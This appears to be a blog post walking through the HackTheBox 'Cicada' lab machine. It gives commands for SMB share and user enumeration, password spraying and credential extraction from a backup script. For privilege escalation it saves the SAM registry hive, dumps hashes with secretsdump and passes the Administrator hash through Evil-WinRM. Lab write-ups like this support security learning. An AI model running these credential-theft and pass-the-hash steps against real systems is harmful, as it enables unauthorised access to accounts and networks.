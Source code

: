 ```yaml
---
layout: post
title: Test-post
date: 2025-02-12 13:34 +0100
description:
image:
author: lone
category: HackTheBox
tags: htb box
published: true
sitemap: false
---
```


## Inital access

From the nmap scan we can see that there are mutliples ports open.
In this case we will focus on the port 445 (smb):

#![nmap_scan](assets/nmap_scan.png)

Using `smbclient` we can list the shares available:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares 
```

#![shares](assets/shares.png)

Using the following command, the list of the readable shares is returned:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares --filter-shares READ WRITE
```

#![shares_filter](assets/shares_filter.png)

Using smbclient we can access the share `HR`:

```bash
smbclient -no-pass guest@10.10.11.35
use HR
```

#![HR_share](assets/HR_share.png)

The file `Notice from HR.txt` can be retrieved and contains the following information:

> Dear new hire!
>
> Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.
>
>Your default password is: "PASSWORD"
>
>To change your password:
>
>1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
>2. Once logged in, navigate to your account settings or profile settings section.
>3. Look for the option to change your password. This will be labeled as "Change Password".
>4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
>5. After changing your password, make sure to save your changes.
>
>Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.
>
>If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at <support@cicada.htb>.
>
>Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!
>
>Best regards,
>Cicada Corp

A password is indicated but no username is provided.
The following command can be used to list all available users:

```bash
netexec smb 10.10.11.35 -u guest -p "" --rid-brute | grep "idTypeUser"
```

#![users](assets/users.png)

The output of the command is saved to a file and the following command is used to extract the usernames:

```bash
sed -E 's/.*CICADA\\([^ ]+) .*/\1/' users.txt > usernames.txt
```

The following command is used to test the password with the found usernames:

```bash
netexec smb 10.10.11.35 -u usernames.txt  -p pass.txt
```

#![michael](assets/michael.png)

The account of `michael.wrightson` is found to be valid.
Listing all the users with the found account, information about the user `david.orelious` is found:

```bash
netexec smb "10.10.11.35" -u 'michael.wrightson' -p pass.txt --rid-brute --users
```

#![david_password](assets/david_password.png)

Using the same command as before, it is possible to see that david has access to the share `DEV`:

```bash
netexec smb "10.10.11.35" -u david.orelious -p david_pass.txt --shares --filter-shares READ WRITE
```

#![DEV](assets/DEV.png)

Using smbclient, the share `DEV` can be accessed:

#![backup_script](assets/backup_script.png)

The content of the retrieved file `backup_script.ps1` is the following:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The credentials of `emily.oscars` are found in the script. The credentials are those of a local user. It is possible to access emily's account using `Evil-WinRM`.
The first flag is found in the Desktop of emily's account:

#![user_flag](assets/user_flag.png)

## Privilege escalation

Using `whoami /priv` the following information is found:

#![priv](assets/priv.png)

This privilege allows the user to retrieves the system hives. The following command is used to retrieve the hives:

```powershell
reg save hklm\sam sam.hive
reg save hklm\sam sam.hive
```

#![hives](assets/hives.png)

After the hives are retrieved, `secretsdump` is used to extract the hashes:

```bash
secretsdump -outputfile dump.txt -sam SAM -system SYSTEM LOCAL
```

#![hashes](assets/hashes.png)

With the hash of the user `Administrator`, it is possible to use `Evil-WinRM` to access the account:

```bash
evil-winrm -u administrator -H 2b87e7c93XXXX -i 10.10.11.35
```

The root flag is found in the Desktop of the Administrator account:

#![root](assets/root.png)
